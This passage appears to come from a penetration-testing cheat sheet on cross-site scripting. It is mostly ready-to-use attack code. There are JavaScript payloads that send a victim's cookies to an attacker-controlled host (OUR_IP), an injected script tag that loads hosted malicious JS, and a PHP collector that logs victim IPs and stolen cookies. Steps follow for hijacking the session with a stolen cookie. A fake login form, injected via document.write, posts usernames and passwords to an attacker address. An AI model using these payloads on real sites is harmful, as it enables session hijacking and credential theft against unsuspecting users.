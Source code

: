 ```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```
We can host the malicious JS as well...
Put the malicious code in a file called script.js
```javascript
new Image().src='http://OUR_IP/index.php?c='+document.cookie
```
Then you can inject the following:
```html
<script src=http://OUR_IP/script.js></script>
```
It's possible we might get multiple cookie values. Change the php code to the following to save them to a file:
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```
Sample result:
```bash
10.10.10.10:52798 [200]: /script.js
10.10.10.10:52799 [200]: /index.php?c=cookie=f904f93c949d19d870911bf8b05fe7b2
```
Finally we can use the cookie on the login page to login.
Navigate to the page
Open developer tools
Storage tab
Click '+' to add cookie (Name is the part before the '=' and value is the part after)

## Phishing (Fake Login Form)
### Login form Injection
```html
<h3>Please login to continue</h3>
<form action=http://attackerip>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```
Login form minified and inserted into document.write parameter
```javascript
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```
